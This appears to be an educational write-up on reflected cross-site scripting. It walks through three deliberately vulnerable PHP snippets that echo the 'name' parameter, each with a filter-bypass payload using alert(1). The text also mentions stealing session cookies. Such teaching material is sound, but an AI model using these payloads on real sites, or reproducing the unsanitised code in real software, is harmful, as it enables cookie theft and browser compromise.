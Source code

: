 # Vulnerable Code 1
This code will get a user input with "name" parameter and reflect result to user. 

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

## Abuse

Since there is no input sanitizing we can add javascript code in our request and execute on client browser. To weponize it we can sent url to a user and redirect their session cookies or execute malicious javascript code on their browser. For simple demonstration we will make it pop-up a message

## Payload

```php
<script>alert(1)</script>
```

## Result

```php
<pre>Hello <script>alert(1)</script></pre>
```

# Vulnerable Code 2
This code will get a user input with "name" parameter and reflect result to user. 

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```


## Abuse

There is filtering unlike code-1 but mechanism is not secure. The problem here, any user input will be controlled and if there is "\<script>" inside of it, code will delete it. The issue here javascript can be executed with capital and lower case also so it is not case sensitive. Since code filters only "\<script>" with lower characters, we can make it like "\<ScRipT" and bypass filtering. 

## Payload

```php
<ScRipT>alert(1)</ScRipT>
```


## Result

# Vulnerable Code 3

This code will get a user input with "name" parameter and reflect result to user. 

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
```

## Abuse

In this code, unlike code-2, filtering is NOT case sensitive, "preg_replace" function will filter any given user input that contains "script". We can still execute other javascript command without "\<sctipt>" tag. To abuse this, we will define an image tag and set source to an unknown location and force it get error. When error occurs we will make it to run our own javascript code

## Payload

```php
<IMG SRC=/ onerror="alert(1)"></img>
```

## Result

```php
<pre>Hello <img src="/" onerror="alert(1)"></pre>
```

